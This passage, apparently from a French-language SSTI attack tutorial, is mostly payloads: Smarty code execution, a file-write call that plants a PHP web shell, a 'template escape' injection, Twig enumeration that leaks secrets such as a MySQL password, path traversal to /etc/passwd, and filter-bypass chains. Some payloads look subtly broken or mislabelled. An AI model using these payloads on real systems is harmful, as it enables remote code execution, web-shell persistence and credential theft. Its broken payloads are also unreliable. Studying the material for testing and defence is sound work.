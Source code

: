 ```php
# Exécution PHP directe
{php}system('id');{/php}

# Via fonction PHP
{system('whoami')}

# Contournement sandbox via static methods
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",true)}
```

## Techniques de Contournement de Sandbox

### Bypass d'Environnements Sandboxés

Les environnements sandboxés modernes tentent de restreindre l'accès aux fonctions dangereuses, mais plusieurs techniques permettent de contourner ces restrictions.

**Template Escape Bugs :**

Une nouvelle classe de vulnérabilités appelée "template escape" permet d'injecter du code dans les fichiers PHP générés par les moteurs de templates :

```php
# Exploitation de template escape dans Smarty
{function name="test() { system('id'); } function test2"}content{/function}
```

Cette technique exploite des bugs dans la génération de code PHP, permettant d'injecter du code PHP natif dans les fichiers compilés.

**Introspection d'Objets Personnalisés :**

Lorsque les fonctions système sont bloquées, l'énumération d'objets personnalisés peut révéler des fonctions exploitables :

```python
# Énumération des variables globales dans Twig
{{_context|keys|join(',')}}

# Accès aux objets personnalisés découverts
{{secrets.MYSQL_PASSWD}}  # Fuite de secrets
{{files.get_style_sheet('../../../../../etc/passwd')}}  # Path traversal
```

### Techniques d'Évasion de Filtres

**Bypassing de Filtres de Caractères :**

```python
# Utilisation d'encodage alternatif
{{"__import__"|attr("os")|attr("system")("id")}}

# Construction dynamique de chaînes
{{request|attr(request.args.class)|attr(request.args.mro)|attr(request.args.getitem)(1)}}
```
